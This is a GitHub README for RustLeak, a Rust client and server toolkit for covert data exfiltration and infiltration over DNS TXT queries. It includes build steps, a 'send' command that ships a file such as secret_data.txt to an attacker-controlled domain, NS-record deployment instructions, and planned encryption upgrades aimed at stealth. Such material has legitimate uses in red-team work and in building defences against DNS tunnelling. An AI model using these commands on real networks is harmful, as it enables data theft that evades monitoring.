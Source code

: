 # **RustLeak**

**RustLeak** is a lightweight and stealthy DNS-based data exfiltration and infiltration toolkit, built with Rust for high performance and reliability. It consists of two main components:
- **\`rustleak-server\`**: The custom DNS server that processes data through DNS queries.
- **\`rustleak-client\`**: The client tool to send or receive data using the server.

# WIP
Actually, the programs only work and is parametred to work in a local environment.
An update will be pushed to work in remote.

---

## **Features**
- **Custom DNS Server**: Handles DNS zones and processes encoded data.
- **Exfiltration and Infiltration**: Transmit or receive data using DNS queries and responses.
- **Command-Line Interface (CLI)**: Simple commands for sending and receiving data.

---

## **How It Works**
- **Exfiltration**: The client (\`rustleak-client\`) sends data embedded in DNS queries to the server (\`rustleak-server\`), which decodes and stores it.
- **Infiltration**: The server responds with data embedded in DNS responses, and the client decodes the received data.

---

## **Possible upgrades**
- **Single Encryption** : Using encryption in order to increase stealth. ( Restricted host <--> DNS Server)
- **Dual Encryption** : Using encryption in order to increase stealth. ( Restricted host <--> DNS Server <--> External host)
- **Record Type rotation**: Actually only TXT records are used to send/receive data.

---

## **Installation**

### Prerequisites
- Rust (latest stable version)
- Cargo (Rust package manager)

### Clone the Repository
\`\`\`bash
git clone https://github.com/Natounet/RustLeak.git
cd RustLeak
\`\`\`

### Build the Tools
\`\`\`bash
cargo build --release
\`\`\`

---

## **Usage**

### **Client: \`rustleak-client\`**
The client provides commands to send or receive data via DNS queries. Below are the supported commands:

#### **Send Data**
Use the \`Send\` command to exfiltrate data:
\`\`\`bash
rustleak-client send --code <unique_code> --filename <file_to_send> --domain <dns_server_domain>
\`\`\`

**Options**:
- \`--code\`: A unique identifier for the data being sent.
- \`--filename\`: Path to the file containing the data to be sent.
- \`--domain\`: The domain name managed by the DNS server.

**Example**:
\`\`\`bash
rustleak-client send --code test123 --filename secret_data.txt --domain example.com
\`\`\`

#### **Receive Data**
Use the \`Receive\` command to retrieve data:
\`\`\`bash
rustleak-client receive --code <unique_code> --filename <output_file> --domain <dns_server_domain>
\`\`\`

**Options**:
- \`--code\`: The unique identifier for the data to retrieve.
- \`--filename\`: Path to the file where the received data will be saved.
- \`--domain\`: The domain name managed by the DNS server.

**Example**:
\`\`\`bash
rustleak-client receive --code test123 --filename received_data.txt --domain example.com
\`\`\`

---

### **Server: \`rustleak-server\`**
The server handles DNS queries for a specific domain.

#### **Start the Server**
Run the server and specify the DNS zone to manage:
\`\`\`bash
rustleak-server --domain <dns_zone> 
\`\`\`

**Options**:
- \`--domain\`: The DNS zone to manage (e.g., \`example.com\`).
- \`--port\`: The port for the DNS server (default: 53).
- \`--output\`: File to save data received from clients.

**Example**:
\`\`\`bash
rustleak-server --domain example.com 
\`\`\`

---

## **Deployment**

To deploy \`rustleak-server\` online:
1. Obtain a domain name (e.g., \`example.com\`) and configure its DNS records.
2. Point your domain's **NS record** to the public IP of the machine running \`rustleak-server\`.
3. Start the server with the appropriate domain.

**DNS Configuration Example**:
\`\`\`plaintext
example.com.    IN NS   <server-public-ip>
\`\`\`

---

## **License**
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

## **Contributing**
Contributions are welcome! Feel free to submit issues or pull requests for bug fixes or new features.

---

## **Disclaimer**
This tool is intended for **educational purposes** and authorized security testing only. The developer is not responsible for any misuse of this tool.

---

## **Contact**
For any questions or feedback, please open an issue on the [GitHub repository](https://github.com/Natounet/RustLeak).

---
